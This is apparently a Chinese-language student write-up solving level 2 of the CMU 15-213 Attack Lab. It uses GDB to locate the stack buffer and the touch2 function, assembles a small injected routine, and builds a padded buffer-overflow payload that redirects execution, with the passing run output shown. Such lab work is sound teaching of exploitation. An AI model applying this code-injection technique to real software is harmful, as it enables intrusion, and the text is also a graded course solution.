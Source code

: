 ## 获取几个重要值

1. 获取 getbuf stack frame 最后一行储存 buf 的开始地址为 `0x5561dc78`

   使用 GDB 进行如下调试拿到 getbuf 栈的最后一行储存 buf 的开始地址，即
   ```shell
   gdb target
   b getbuf
   r -q
   ni # 执行完 sub $28
   x $rsp # 查看 rsp 地址，输出 0x5561dc78
   ```

2. 获取 cookie 内容。这个内容是一个立即数 `0x59b997fa`


3. 获取 touch2 函数入口地址 `0x4017ec`
   ```shell
   gdb ctarget

   disas touch2
   ```

   得到
   ```s
   Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:     sub    $0x8,%rsp
   0x00000000004017f0 <+4>:     mov    %edi,%edx
   0x00000000004017f2 <+6>:     movl   $0x2,0x202ce0(%rip)        # 0x6044dc <vlevel>
   0x00000000004017fc <+16>:    cmp    0x202ce2(%rip),%edi        # 0x6044e4 <cookie>
   ```

## 生成注入代码

`exploit2.s`

```s
pushq $0x4017ec
movq  $0x59b997fa, %rdi
retq
```

执行以下指令，生成注入字节

```shell
gcc -c  exploit2.s
objdump -d exploit2.o > exploit2.d
```

得到 `exploit2.d`

```text
exploit2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	68 ec 17 40 00       	pushq  $0x4017ec
   5:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   c:	c3                   	retq   
```


最后得到注入的指令字节是

```
68 ec 17 40 00 48 c7 c7
fa 97 b9 59 c3
```


我们需要填充整个 getbuf 的栈，同时把 ret 原来返回 test 的指令地址覆盖为我们注入代码的首地址。即 buf 的开始地址

```
68 ec 17 40 00 48 c7 c7
fa 97 b9 59 c3 aa aa aa
aa aa aa aa aa aa aa aa
aa aa aa aa aa aa aa aa
aa aa aa aa aa aa aa aa /* padding 0x28 (40) bytes */
78 dc 61 55 00 00 00 00 /* 0x5561dca0 - 0x28 */
```

## 解题

```shell
./hex2raw < exploit2.txt > raw2.txt # 生成注入字节

./ctarget -q -i ./raw2.txt # 输入
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:68 EC 17 40 00 48 C7 C7 FA 97 B9 59 C3 AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA AA 78 DC 61 55 00 00 00 00 
```
